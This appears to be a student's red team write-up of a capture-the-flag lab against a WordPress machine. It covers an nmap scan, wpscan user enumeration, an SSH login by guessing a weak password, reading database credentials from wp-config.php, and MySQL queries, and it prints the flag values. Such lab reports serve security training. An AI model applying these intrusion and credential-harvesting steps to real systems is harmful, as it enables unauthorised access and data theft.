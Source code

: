 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```
![](Images/Target1_nmap_scan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22: ssh
  - Port 80: http
  - Port 111: rpcbind
  - Port 139: netbios-ssn
  - Port 445: netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Cross Site Request Forgery
  - Exposed Private Directories
  - Service regsvc in Microsoft Windows 2000 systems vulnerable to denial of service
![](Images/Vuln_Scan_1.png)
![](Images/Vuln_Scan_2.png)

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - used wpscan to identify the users on the target system
      - ssh into user michael by guessing the password as michael
      - used grep to find flag in michael's accessible directories
      - **Commands:**
      ```bash
      $ wpscan --url 192.168.1.110/wordpress --enumerate u
      $ ssh michael@192.168.1.110
      $ cd /var/www/html
      $ grep 'flag' *
      ```
  ![](Images/wpscan1.png)
  ![](Images/wpscan2.png)
  ![](Images/ssh.png)
  ![](Images/Flag_1.png)

  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - was able to navigate to the /var/www directory where flag2.txt was present
      ```bash
      $ cd /var/www/html
      $ cat flag2.txt
      ```
  ![](Images/Flag_2.png)

    - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - was able to navigate to the /var/www/html/wordpress directory where the MySQL database credentials was available under wp-config.php file
      - navigated to the MySQL database
      ```bash
      $ cd /var/www/html/wordpress
      $ cat wp-config.php
      $ mysql -u root -p
      $ show database;
      $ USE wordpress;
      $ SHOW tables;
      $ SELECT * FROM wp_post
      ```
  ![](Images/config.png)
  ![](Images/mysql1.png)
  ![](Images/mysql2.png)